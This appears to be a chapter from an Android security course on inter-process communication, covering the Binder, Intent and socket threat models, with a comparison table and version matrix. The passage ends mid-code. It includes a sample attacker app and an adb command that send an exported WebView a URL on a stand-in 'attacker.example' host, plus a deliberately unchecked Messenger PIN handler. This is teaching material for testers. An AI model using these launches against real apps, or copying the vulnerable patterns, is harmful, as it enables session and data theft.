









# 24 — Inter-Process Communication (IPC)

> After this chapter you will be able to enumerate every channel through which an Android application
> can be reached by another application on the same device, reason about who is trusted on each side
> of that channel, and demonstrate — with real commands — when a channel is a vulnerability rather
> than a feature.

**Prerequisites:** [02-Linux-Basics](../02-Linux-Basics/README.md), [06-Android-Architecture](../06-Android-Architecture/README.md), [20-Security-Architecture](../20-Security-Architecture/README.md), [21-App-Sandbox](../21-App-Sandbox/README.md), [23-Permissions](../23-Permissions/README.md)
**Applies to:** Android 5–16 (API 21–36), with version-specific behaviour called out in Version Matrix tables

---

## Table of Contents

1. [Introduction](#1-introduction)
2. [High-Level Architecture](#2-high-level-architecture)
3. [Deep Internal Working](#3-deep-internal-working)
4. [Source Code Walkthrough (AOSP)](#4-source-code-walkthrough-aosp)
5. [Security Perspective](#5-security-perspective)
6. [Reverse Engineering Perspective](#6-reverse-engineering-perspective)
7. [Dynamic Analysis](#7-dynamic-analysis)
8. [Static Analysis](#8-static-analysis)
9. [Examples](#9-examples)
10. [Common Interview Questions](#10-common-interview-questions)
11. [Common Mistakes](#11-common-mistakes)
12. [Hands-on Labs](#12-hands-on-labs)
13. [Summary](#13-summary)
14. [References](#14-references)

---

## 1. Introduction

### 1.1 The problem that existed before IPC

Imagine a city where every building is sealed. No doors, no windows, no post box, no telephone line.
Nothing inside a building can ever affect anything outside it. Such a city would be perfectly safe
and completely useless. Nobody could buy bread, send a letter, or call an ambulance.

An operating system that isolates programs perfectly has exactly that problem. Android goes to
extraordinary lengths to isolate applications from each other — each application runs as its own
Linux user (its own UID), in its own process, with its own private data directory that no other
application can read, under an SELinux policy that constrains it even if it somehow became root.
That isolation is the single most important security property Android has. It is described in detail
in [21-App-Sandbox](../21-App-Sandbox/README.md).

But a phone where applications cannot talk to each other is a phone that cannot do anything useful.
Consider what a single ordinary action requires:

- You tap **Share** in a photo gallery and choose a messaging app. The gallery process must hand a
  photograph to the messenger process — two different UIDs, two different sandboxes.
- The messenger must ask the system whether it is allowed to use the network, must obtain a socket,
  must be told when the network changes, and must be woken when a message arrives.
- To draw anything at all on screen it must ask `SurfaceFlinger` — a completely separate process
  running as a different user — for a drawing surface.
- To know the time, the battery level, the locale, or the screen size it must ask `system_server`.

Every one of those is a conversation across a sandbox boundary. **IPC — inter-process communication
— is the set of mechanisms Android provides for those conversations.**

> **📖 Definition**
> **Process.** A running program together with everything the kernel gives it: its own virtual
> address space (its private view of memory), its open file descriptors, its user identity (UID),
> and its threads. Two processes cannot read each other's memory. On Android, in almost all cases,
> one installed application equals one process with one unique UID.

> **📖 Definition**
> **Inter-Process Communication (IPC).** Any mechanism by which one process causes data to be
> transferred to, or an action to be performed in, another process. Because processes cannot share
> memory by default, every IPC mechanism must ultimately go through the kernel, which is the only
> component with a view of both processes.

### 1.2 What would break if IPC did not exist

Everything. Android is not "an operating system that happens to use IPC". Android is *built* on IPC.
The application framework that developers program against — `ActivityManager`, `PackageManager`,
`LocationManager`, `TelephonyManager`, `ClipboardManager` — is not a library that runs inside your
app. It is a set of *proxy objects* in your process that forward every call to `system_server`, a
single privileged process that owns almost all of the platform's state and enforces almost all of
the platform's permission checks.

When you call `getSystemService(Context.LOCATION_SERVICE)` and then `getLastKnownLocation()`, no
location code runs in your process. A message crosses a process boundary, `system_server` checks
whether your UID holds `ACCESS_FINE_LOCATION`, and a reply comes back. The permission model of the
entire platform is an IPC-level permission model. Remove IPC and there is no framework, no
permissions, and no Android.

### 1.3 Why letting processes talk is dangerous

Here is the uncomfortable truth at the heart of this chapter.

**Every IPC channel is a hole in a wall you spent enormous effort building.** The sandbox says "no
process may touch another process's data". Each IPC endpoint says "…except through *this* door".
Every door needs a doorman, and the doorman is application code written by a developer under
deadline pressure who may not have thought carefully about who is knocking.

Three properties make IPC uniquely dangerous on a mobile device:

**First, the attacker is already inside the building.** In a classic network threat model the
attacker is remote and must first get code running on the machine. On Android, the attacker's code
is a normal app the user installed — a flashlight, a game, a QR scanner. It has no special
permissions. It cannot read your app's files. But it *can* send your app a message through every
door you left open, as many times as it likes, with any content it likes. The cost of an attempt is
zero.

**Second, the receiving side has all the authority.** When app A sends a message to app B, the
resulting work happens with **B's** identity, **B's** permissions and **B's** file access. If B does
what A asked without checking, A has effectively borrowed B's privileges. This is the *confused
deputy* problem, and it is the single most important idea in this chapter. Section 3.20 works
through it in full.

**Third, the channels are not obvious.** A developer knows they exported an Activity, because they
wrote `android:exported="true"`. They very often do *not* know that:

- the third-party analytics SDK they added opens a listening TCP socket on `127.0.0.1`;
- the cross-platform framework they use creates an abstract-namespace UNIX socket whose name is
  guessable, and which no filesystem permission protects;
- their debug build writes a world-readable file to shared storage;
- the `PendingIntent` they hand to the notification system is mutable and can be rewritten by anyone
  who obtains it.

Enumerating the channels the developer forgot is most of the work of an Android IPC assessment.

> **🧠 Mental Model**
> Think of an Android device as an office building where every tenant has a locked suite. IPC
> mechanisms are the shared infrastructure: the reception desk (`servicemanager` and Binder), the
> internal mail system (Intents), pneumatic tubes between two specific suites (UNIX sockets), the
> notice board in the lobby (broadcasts, clipboard, `Settings.Global`), and the loading dock that
> anyone with a delivery badge can walk up to (localhost TCP, abstract sockets). Your job as a
> tester is to walk the building and find which doors were left unlocked, which have a doorman who
> does not check badges, and which staff members will carry a package into a secure area because
> someone in a high-visibility vest asked them to.

> **🔍 Pentester's Note**
> When you are handed an Android app to test, the IPC surface is where the high-severity findings
> live. Hardcoded API keys and missing certificate pinning are findings, but they are usually
> medium. Intent redirection reaching an internal WebView, an unprotected `ContentProvider` exposing
> the session database, or a localhost debug HTTP server that any app with `INTERNET` can drive —
> those are the findings that change a report's executive summary. Budget your time accordingly.

### 1.4 A first taste — what "reachable" looks like

Before any theory, look at what an attack actually costs. Suppose an app declares this in its
manifest:

```xml
<!-- AndroidManifest.xml of the target app -->
<activity android:name=".WebViewActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.VIEW" />
        <category android:name="android.intent.category.DEFAULT" />
        <category android:name="android.intent.category.BROWSABLE" />
        <data android:scheme="targetapp" />
    </intent-filter>
</activity>
```

Any application on the device — with zero permissions — reaches it with four lines of Java:

```java
// Attacker app, no permissions declared at all
Intent i = new Intent(Intent.ACTION_VIEW);
i.setData(Uri.parse("targetapp://open?url=https://attacker.example/steal.html"));
startActivity(i);
```

And you, the tester, reach it with one shell command:

```bash
# adb shell
am start -a android.intent.action.VIEW -d "targetapp://open?url=https://attacker.example/steal.html"
```

That is the entire cost of entry. No exploit, no memory corruption, no root. The rest of this
chapter is about finding every such door, understanding what is behind it, and judging honestly
whether it matters.

---

## 2. High-Level Architecture

### 2.1 The whole IPC landscape in one picture



Spend a minute on this diagram, because it is the map for the whole chapter.

On the left is an attacker application. It is an ordinary app with an ordinary UID in the 10000+
range and — this is the important part — **no permissions at all**, except `INTERNET` for the one
path that needs it. `INTERNET` is granted automatically at install time on every Android version and
is never shown to the user, so treating it as "free" is realistic.

In the middle is the target. Notice that it has *seven* reachable surfaces, and only four of them
(the Activity, the Service, the Receiver, the Provider) appear in its `AndroidManifest.xml`. The
localhost socket and the abstract UNIX socket are invisible to every manifest-based analysis tool.
The final box, "internal, non-exported code", is the prize: the attacker cannot reach it directly,
but if any exported component forwards a request to it, the attacker reaches it indirectly. Those
dotted arrows are the confused-deputy paths.

On the right is `system_server`, which is the referee for Binder-mediated IPC. Every Intent, every
`bindService`, every `ContentResolver` call passes through it or is at least authorised by it.
Nothing in that column is under the attacker's control — but everything in that column faithfully
carries out the attacker's request if the target app does not object.

At the bottom is the kernel. Every arrow in the diagram passes through it. This matters because it
means the kernel — not the framework — is the ultimate authority on identity, and it is why
Binder's caller-UID guarantee (Section 3.21) can be trusted while an application-level "who are
you?" field cannot.

### 2.2 The two shapes of IPC: mediated and direct



This distinction decides how you test, and it decides what protections exist.

**Mediated IPC** goes through `system_server`. Intents, service binding, content provider access and
broadcasts are all mediated. Because the framework is in the path, the framework can enforce policy:
it checks `android:exported`, it checks `android:permission`, it checks URI grants, it can log, and
it can refuse. When you hear "Android's IPC security model", this is what is being described.

**Direct IPC** does not involve the framework at all. Two apps that agree on a UNIX socket path, a
localhost port, a shared file, or a piece of shared memory can communicate with the framework
completely unaware. There is no `exported` attribute, no `android:permission`, no `dumpsys` entry
for it, and no static analysis tool that reads the manifest will ever see it. The only controls are
Linux DAC (file permissions) and SELinux — and for abstract-namespace sockets, DAC does not apply at
all.

> **⚠️ Warning**
> A large fraction of automated Android security tooling only understands mediated IPC, because it
> works from the manifest. If your methodology is "run MobSF, read the exported-components table",
> you will systematically miss the entire direct-IPC category. Sections 3.9 through 3.13 are the
> ones that separate a thorough tester from a tool operator.

### 2.3 A concrete request, end to end



Read the last note again. The security decision was made in `system_server`, and it was a single
binary decision: *is this component reachable by this caller?* Once the answer is yes, the entire
contents of the Intent — action, data URI, every extra, every nested Parcelable — is handed to the
target application as attacker-controlled input, and **no further platform check happens**. Every
subsequent decision is the app developer's.

That is the precise reason IPC bugs are application bugs and not platform bugs. The platform did its
job. The app trusted the message.

### 2.4 Trust boundaries drawn explicitly



There are three boundaries, and confusing them is the source of most bad findings.

**Boundary 1** is the sandbox: kernel-enforced UID separation plus SELinux. It is strong. Apps do
not cross it by accident.

**Boundary 2** is where almost all application-level IPC vulnerabilities live. The kernel guarantees
identity, but *authorisation* is a policy decision made in userspace — sometimes by `system_server`,
sometimes by the receiving app. A missing check here is an app vulnerability.

**Boundary 3** is where platform and kernel vulnerabilities live. Crossing it means privilege
escalation to `system` or root. That is the subject of
[70-VulnerabilityResearch](../70-VulnerabilityResearch/README.md), not this chapter.

When you write a finding, be explicit about which boundary was crossed. "An unprivileged app can
read the victim's session token" (boundary 1, via a boundary 2 flaw) is a very different sentence
from "an app can execute code as `system`" (boundary 3).

---

## 3. Deep Internal Working

### 3.1 The master comparison table

This table is the spine of the chapter. Every mechanism gets a full treatment below, but keep this
in front of you: it answers "what can reach this, and what stops it?" for every channel on the
platform.

| # | Mechanism | Transport | Declared in manifest? | Default reachability | Identity available to receiver | Primary control | Typical severity when broken |
|---|---|---|---|---|---|---|---|
| 1 | Binder (raw) | `/dev/binder` ioctl | No (registered at runtime) | Anything that can obtain the `IBinder` | `Binder.getCallingUid()` — trustworthy | App-implemented check in `onTransact` | High |
| 2 | Intent → Activity | Binder via AMS | Yes | `exported=true` → any app | `getCallingActivity()` only for `startActivityForResult`; otherwise none | `exported`, `android:permission`, signature perms | High |
| 3 | Intent → Service (start/bind) | Binder via AMS | Yes | `exported=true` → any app | `Binder.getCallingUid()` inside the bound interface | `exported`, `android:permission` | High |
| 4 | Intent → BroadcastReceiver | Binder via AMS | Yes (or runtime-registered) | `exported=true` → any app | None on the Intent itself | `exported`, `android:permission`, `LocalBroadcastManager` | Medium–High |
| 5 | Messenger | Binder wrapping a `Handler` | Via its host Service | Same as the host Service | `Message.sendingUid` (API 21+) | Host Service's `exported`/permission | High |
| 6 | AIDL interface | Binder | Via its host Service | Same as the host Service | `Binder.getCallingUid()` per method | Per-method checks in the Stub implementation | High |
| 7 | ContentProvider | Binder via AMS/`ContentResolver` | Yes | `exported` default **true** below `targetSdk` 17 | `Binder.getCallingUid()`, `getCallingPackage()` | `exported`, read/write permissions, `path-permission`, `grantUriPermissions` | Critical |
| 8 | UNIX domain socket (filesystem) | `AF_UNIX` + inode | No | Whoever the file mode/SELinux label allows | `SO_PEERCRED` → uid/gid/pid | File permissions, SELinux, `SO_PEERCRED` check | High |
| 9 | **Abstract-namespace UNIX socket** | `AF_UNIX`, name starts with NUL | No | **Any process in the same network namespace — no permission needed** | `SO_PEERCRED` → uid/gid/pid | **Only** an application-level `SO_PEERCRED` check | High–Critical |
| 10 | Localhost TCP/UDP socket | loopback interface | No | **Any app holding `INTERNET`** | None from the socket; only `/proc/net` correlation | Application-level auth only | High–Critical |
| 11 | Shared files (external storage) | filesystem | No (permissions are) | Any app with storage access / MediaStore | None | Scoped storage, `FileProvider` | Medium–High |
| 12 | Shared memory (ashmem / memfd) | fd passed over Binder | No | Whoever receives the fd | Whoever you sent it to | Seal the memfd, size checks, don't share writable | Medium–High |
| 13 | `SharedPreferences` `MODE_WORLD_READABLE` | filesystem | No | Historically any app | None | Removed — throws on `targetSdk` 24+ | Historical / Critical where present |
| 14 | Clipboard | Binder to `ClipboardService` | No | Foreground app; restricted since Android 10 | `ClipData` source package (API 29+ metadata) | `FLAG_SENSITIVE` (API 33+), avoid clipboard | Medium |
| 15 | `Settings.Secure` / `Settings.Global` | Binder to `SettingsProvider` | No | Read: most apps. Write: privileged | None | Not a real channel; treat reads as untrusted | Low–Medium |
| 16 | File descriptor over Binder | `flat_binder_object` type FD | No | The receiving process | Sender identity via Binder | Open read-only, validate path, use `FileProvider` | High |
| 17 | Intent extras / `Bundle` | Inside a Binder parcel | Implicitly | Whatever component receives it | Same as the component | Type-check, never trust nested `Intent` | High |
| 18 | Deep links / App Links / custom schemes | Intent via AMS from browser or any app | Yes | Any app; browsers too | None | `autoVerify`, host verification, treat URL as hostile | High |
| 19 | Sticky broadcasts (deprecated) | AMS-retained Intent | Yes | Any app that registers later | None | Deprecated since API 21 — do not use | Medium |
| 20 | `android:sharedUserId` (deprecated) | Same UID, no boundary at all | Yes | Both apps share everything | Not applicable | Deprecated since API 29 — migrate off | High |

> **📖 Definition**
> **Exported.** A manifest attribute (`android:exported`) that declares whether a component can be
> started or accessed by components of *other* applications. If absent, the default depends on
> whether the component declares an `<intent-filter>`: with a filter the historical default was
> `true`; from `targetSdk` 31 (Android 12) an explicit value is **mandatory** for any component with
> an intent filter, and the build fails otherwise.

### 3.2 Version matrix — when the rules changed

| Android / API | Change | Effect on testing |
|---|---|---|
| 4.2 / 17 | `ContentProvider` `exported` defaults to `false` when `targetSdk >= 17` | Old apps with low `targetSdk` still default to exported — always check `targetSdk` |
| 4.4 / 19 | Implicit `Intent`s to `bindService()` deprecated in practice | Service binding must be explicit from 5.0 |
| 5.0 / 21 | `bindService()` with an implicit Intent throws `IllegalArgumentException`; `Message.sendingUid` added | Service must be addressed explicitly |
| 6.0 / 23 | Runtime permissions | A permission being declared no longer means it is granted |
| 7.0 / 24 | `MODE_WORLD_READABLE`/`WRITEABLE` throw `SecurityException`; `file://` URIs outside the app throw `FileUriExposedException` | Legacy world-readable prefs only on old `targetSdk` |
| 8.0 / 26 | Implicit broadcasts mostly cannot start manifest-declared receivers | Many receivers effectively unreachable implicitly; explicit targeting still works |
| 9 / 28 | Cleartext traffic blocked by default; per-app SELinux domains hardened; non-SDK interface restrictions | Localhost HTTP listeners may still work — loopback is often exempted by config |
| 10 / 29 | Clipboard readable only by the foreground app or the default IME; scoped storage introduced | Clipboard theft largely mitigated but not gone |
| 11 / 30 | Scoped storage enforced; **package visibility filtering** (`<queries>`) | `queryIntentActivities` no longer sees everything — affects enumeration from an app |
| 12 / 31 | `android:exported` **mandatory** for components with intent filters; `PendingIntent` must specify `FLAG_IMMUTABLE` or `FLAG_MUTABLE` | Fewer accidental exports; mutable `PendingIntent` bugs become explicit |
| 13 / 33 | Runtime receivers must declare `RECEIVER_EXPORTED` / `RECEIVER_NOT_EXPORTED`; `ClipDescription.EXTRA_IS_SENSITIVE` | Runtime-registered receivers stop being an accidental hole |
| 14 / 34 | Implicit intents cannot target non-exported components even within an app; `registerReceiver` export flag enforced | Kills a family of internal-implicit-intent bugs |
| 15 / 35 | Further restrictions on background activity launches and `PendingIntent` creator checks | Affects task-hijack and PI-based chains |

> **🔍 Pentester's Note**
> The `targetSdk` of the APK — not the OS version of your test device — decides which of these rules
> applies to the app. An app targeting API 19 running on Android 14 still gets many legacy
> behaviours. Read it first with `aapt2 dump badging app.apk | grep targetSdkVersion`. A low
> `targetSdk` on a current app is itself a finding, because it opts the app out of a decade of
> platform hardening.

### 3.3 Binder — the substrate everything else sits on

Binder is covered exhaustively in [25-Binder](../25-Binder/README.md). Here is only what you need to
place it in the IPC landscape.

Binder is a kernel driver, `/dev/binder`, that implements a **capability-style** object-oriented RPC
system. A process registers an object; other processes obtain a *handle* to that object; a call on
the handle is transported by the kernel into a thread of the owning process.

Three properties make it the substrate for everything else:

**It carries identity that cannot be forged.** When the driver delivers a transaction it attaches
the sender's UID and PID, taken from the kernel's own record of the calling task — not from anything
the sender wrote into the message. The receiver reads it with `Binder.getCallingUid()`.

**It carries object references and file descriptors.** A Binder parcel can contain a reference to
another Binder object, or a real open file descriptor which the kernel duplicates into the receiving
process. This is how `ParcelFileDescriptor`, shared memory, and `ContentProvider.openFile()` work.

**It provides lifetime management.** Reference counting and death notification (`linkToDeath`) mean
a client learns when a service dies rather than hanging forever.



The security consequence in one sentence: **Binder tells the receiver, truthfully, who is calling —
and then does nothing else. Deciding whether that caller is allowed is entirely the receiver's job.**

**Threat model for raw Binder:**

| Question | Answer |
|---|---|
| Who can reach it? | Any process that can obtain the `IBinder` handle — via `servicemanager` for system services, or via `bindService`/an Intent extra for app services |
| What does the attacker control? | The transaction code and the entire parcel contents |
| What stops them? | Only code the service author wrote inside `onTransact` |
| Classic failure | An `onTransact` override that handles undocumented transaction codes without checking `getCallingUid()` |
| How to test | `service list`, `service call <name> <code> ...`, and a Frida hook on `onTransact` (Section 7) |

### 3.4 Intents — the framework's message envelope

An `Intent` is a `Parcelable` message object describing an operation to perform. It is covered in
full in [26-Intent](../26-Intent/README.md); here is its role as an IPC mechanism.

An Intent travels inside a Binder transaction to `ActivityManagerService`, which resolves it to a
component and delivers it. Two addressing modes exist:

- **Explicit**: the Intent names a `ComponentName` (package + class). AMS delivers it there or fails.
- **Implicit**: the Intent names an action, and optionally data and categories. AMS asks
  `PackageManagerService` which components declared a matching `<intent-filter>`.



**Threat model for Intents:**

| Question | Answer |
|---|---|
| Who can reach it? | Any app, for any `exported=true` component with no permission, or with a `normal`-protection permission |
| What does the attacker control? | Action, data URI, type, categories, flags, **all extras including nested `Intent` and `Parcelable` objects**, `ClipData` |
| What stops them? | `android:exported="false"`, a `signature`-level `android:permission`, and — critically — validation inside the component |
| Classic failures | Intent redirection; trusting `getIntent().getStringExtra("url")` in a WebView; trusting a boolean extra like `is_authenticated` |
| How to test | `am start` / `am broadcast` with every extra type; Drozer; a purpose-built attacker APK |

> **⚠️ Warning**
> `getIntent()` returns attacker-controlled data in any exported component. Treat it exactly as you
> would treat an HTTP request body on a web server: parse defensively, validate every field, and
> never let it decide an authorisation outcome.

### 3.5 Messenger — a Handler behind a Binder

`Messenger` is a thin convenience wrapper: it takes a `Handler` and produces an `IBinder` that, when
a `Message` is sent to it, posts that `Message` to the `Handler`'s looper thread. It gives you
serialised, single-threaded message handling without writing AIDL.

```java
// Target app — a Messenger service
public class CmdService extends Service {
    static final int MSG_SET_PIN = 1;

    private final Handler handler = new Handler(Looper.getMainLooper()) {
        @Override public void handleMessage(Message msg) {
            switch (msg.what) {
                case MSG_SET_PIN:
                    // msg.getData() is attacker-controlled if this Service is exported
                    savePin(msg.getData().getString("pin"));
                    break;
            }
        }
    };

